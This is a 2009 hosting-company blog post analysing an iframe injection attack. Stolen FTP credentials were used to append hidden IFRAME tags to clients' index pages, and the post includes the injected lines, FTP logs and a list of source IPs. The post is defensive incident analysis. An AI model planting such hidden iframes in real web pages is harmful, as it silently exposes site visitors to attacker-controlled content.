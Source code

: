 ```yaml
---
published: true
comments: true
author: max-veprinsky
date: '2009-09-21 15:17:56'
layout: post
slug: iframe-injection-attack-investigation
status: publish
title: Iframe injection attack investigation
wordpress_id: '874'
categories:
- hosting
- Security
---
```


The whole hidden IFRAME vulnerability has been going on for some time, only a few of our client have been effected by this. The net is still buzzing with this issue and while some are saying that the injection are results of php insecurities, mysql injection or cross site scripting, while others point to key loggers and hijacked ftp credentials. In our case the exploit was not due to an application vulnerability but rather to hijacked ftp login information. Brute force password guessing attacks were not performed on this account nor any other accounts on the same server. In this particular type of attack, at the very end of index.php/index.html an IFRAME statement was appended overwriting page closing tags.

```
iframe src="http://***.ru:8080/index.php" width=111 height=162 style="visibi
iframe src="http://***.ru:8080/index.php" width=136 height=162 style="visibility: hidden" /iframe
iframe src="http://***.ru:8080/index.php" width=141 height=156 style="visibility: hidden" /iframe
```

Some of the index.php files had multiple IFRAME statements appended to the end. Knowing the username of affected account and affected filename I searched in /var/log/messages for any related entries and hit jackpot:

```
Aug 27 01:27:59 web152 pure-ftpd: (?@94.218.69.243) [INFO] user is now logged in
Aug 27 01:28:00 web152 pure-ftpd: (user@94.218.69.243) [NOTICE] /home/user//public_html/index.php downloaded  (2311 bytes, 1001.70KB/sec)
Aug 27 01:28:00 web152 pure-ftpd: (user@94.218.69.243) [INFO] Logout.
Aug 27 01:28:04 web152 pure-ftpd: (?@78.92.144.185) [INFO] user is now logged in
Aug 27 01:28:05 web152 pure-ftpd: (user@78.92.144.185) [NOTICE] /home/user//public_html/index.php uploaded  (2353 bytes, 10.42KB/sec)
Aug 27 01:28:05 web152 pure-ftpd: (user@78.92.144.185) [INFO] Logout.
```

What's interesting to note here is that even though downloading/uploading of index.php happens within a 6 second window, the source ip address for download and upload are not the same. During the next few days the same file is downloaded and uploaded but never from the same set of ip addresses. During the few days that I was allowing this to happen as I was monitoring said activity and collecting the IP addresses to see if a pattern emerges:

```
83.82.57.39 GeoIP Country Edition: NL, Netherlands
95.52.163.74 GeoIP Country Edition: RU, Russian Federation
189.122.164.40 GeoIP Country Edition: BR, Brazil
69.159.47.21 GeoIP Country Edition: CA, Canada
85.221.184.164 GeoIP Country Edition: PL, Poland
98.243.198.220 GeoIP Country Edition: US, United States
78.30.154.22 GeoIP Country Edition: RS, Serbia
77.81.33.229 GeoIP Country Edition: RO, Romania
83.6.73.91 GeoIP Country Edition: PL, Poland
190.198.3.27 GeoIP Country Edition: VE, Venezuela
75.208.130.92 GeoIP Country Edition: US, United States
68.84.202.157 GeoIP Country Edition: US, United States
75.80.81.104 GeoIP Country Edition: US, United States
```

Seeing that no clear pattern is evident here and considering that the IP address was different for each connection it is my rationale that the computer's at these IP addresses were a part of a botnet. My assumption is that a developer had saved the account password and was infected by malicious software which was able to gather the ftp credentials.

Cleanup included restoring files and changing all account/ftp/email and database passwords.
